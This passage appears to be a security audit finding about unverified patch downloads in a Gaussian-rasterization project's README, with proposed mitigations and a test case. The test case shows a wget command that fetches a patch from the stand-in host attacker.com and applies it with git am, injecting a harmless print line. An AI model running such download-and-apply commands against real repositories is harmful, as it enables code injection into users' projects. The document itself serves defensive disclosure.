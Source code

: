     - None. The project does not implement any mechanism to verify the integrity or authenticity of the patch files. It relies on users implicitly trusting the provided URLs and the GitHub platform.
- **Missing Mitigations:**
    - **Patch Integrity Verification:** Implement a mechanism to ensure the integrity of the patch files. This could involve:
        - Providing checksums (e.g., SHA256 hashes) of the patch files in the README, allowing users to manually verify the downloaded patches before applying them.
        - Digitally signing the patch files, although this might be more complex to implement and manage in this context.
    - **User Warning:** Add a clear warning in the README.md file advising users about the security risks of applying patches from any source without proper verification. Recommend users to verify the integrity of downloaded patches before applying them.
- **Preconditions:**
    - The user must follow the integration instructions provided in the README.md file.
    - The attacker must be able to replace the legitimate patch file on the repository (or convince users to download a malicious patch from a different source).
- **Source Code Analysis:**
    - **/code/README.md**:
        - The "Using it with popular 3DGS optimization libraries" section provides instructions to download patch files using `wget` from raw GitHub URLs:
            ```bash
            wget https://github.com/grgkopanas/slang-gaussian-rasterization/raw/main/slang_gaussian_rasterization/api/patches/3dgs_inria.patch
            git am 3dgs_inria.patch
            ```
        - This method of downloading and applying patches is inherently vulnerable if the patch source is compromised, as `git am` will apply any patch provided without verification.
    - There are no other files in the project that directly mitigate this vulnerability. The vulnerability stems from the integration instructions in the README and the lack of patch integrity checks.
- **Security Test Case:**
    1. **Attacker creates a malicious patch:**
        - Create a file named `malicious_patch.patch` with the following content. This patch is designed to add a print statement to the `train.py` file of the Inria 3DGS repository as a proof of concept for code injection.
        ```patch
        --- a/train.py
        +++ b/train.py
        @@ -1,2 +1,4 @@
         # malicous patch injected
+        print("Malicious patch has been injected and executed!")
         import os, sys, glob, argparse
         import numpy as np
        ```
    2. **Attacker hosts the malicious patch:**
        -  For testing purposes, the attacker can host this `malicious_patch.patch` file on a local web server or a publicly accessible file hosting service.  Assume the malicious patch is accessible at `http://attacker.com/malicious_patch.patch`.
    3. **Victim modifies README instructions (simulated attack):**
        -  The victim, intending to follow the integration instructions, is tricked into using a modified instruction.  Assume the victim replaces the legitimate `wget` command in the README instructions with the following command, pointing to the attacker's malicious patch:
            ```bash
            wget http://attacker.com/malicious_patch.patch -O 3dgs_inria.patch
            git am 3dgs_inria.patch
            ```
    4. **Victim executes modified instructions:**
        - The victim executes the modified commands in their terminal within the Inria 3DGS repository directory, as instructed in the (modified) README.
    5. **Verify code injection:**
        - The victim checks the `train.py` file in their Inria 3DGS repository. They will find the line `print("Malicious patch has been injected and executed!")` added at the beginning of the file, confirming the successful code injection.